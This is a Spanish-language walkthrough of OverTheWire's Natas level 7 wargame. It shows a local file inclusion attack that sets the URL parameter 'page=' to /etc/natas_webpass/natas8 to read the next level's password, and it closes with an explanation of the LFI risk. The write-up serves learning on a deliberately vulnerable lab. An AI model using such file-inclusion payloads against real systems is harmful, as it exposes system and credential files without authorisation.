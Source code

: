 La página inicial nos muestra dos enlaces `Home` y `About`.
Al dar clic en cada uno de ellos se actualiza la página:
- Al dar clic en `Home`
```
URL: http://natas7.natas.labs.overthewire.org/index.php?page=home

Texto:
this is the front page
```
- Al dar clic en `About`
```
URL: http://natas7.natas.labs.overthewire.org/index.php?page=about

Texto:
this is the about page
```

También encontramos una pista comentada en el código fuente de la página:
```
<!-- hint: password for webuser natas8 is in /etc/natas_webpass/natas8 -->
```
*Es una nota recordándonos que cada nivel contiene la contraseña del nivel siguiente en una ruta  /etc/natas_webpass/*

Deducimos que el directorio tiene esta distribución:
```
☁ natas7.natas.labs.overthewire.org/
├── 📂 etc/natas_webpass/
|   └── natas8 # Contraseña del nivel siguiente
└── index.php # La página del nivel
```

Intentamos ingresar modificando la URL pero no resulta, comparando las URL de `home` y `about`, notamos que entre ellas cambia el valor del campo `page=`, así que lo modificamos para apuntar al archivo de la contraseña:
```
http://natas7.natas.labs.overthewire.org/index.php?page=/etc/natas_webpass/natas8
```

*Esto nos muestra la contraseña siguiente*

---
## **Conclusión**

Este nivel nos muestra los riesgos de la inclusión dinámica de archivos sin validar las entradas del usuario. Al permitir que el parámetro `page` se modifique en la URL, el sistema se vuelve vulnerable a ataques de **inclusión de archivos locales (LFI)**, donde se puede acceder a archivos del sistema que no deberían estar disponibles a través de la web. 

---
-,"  
[_P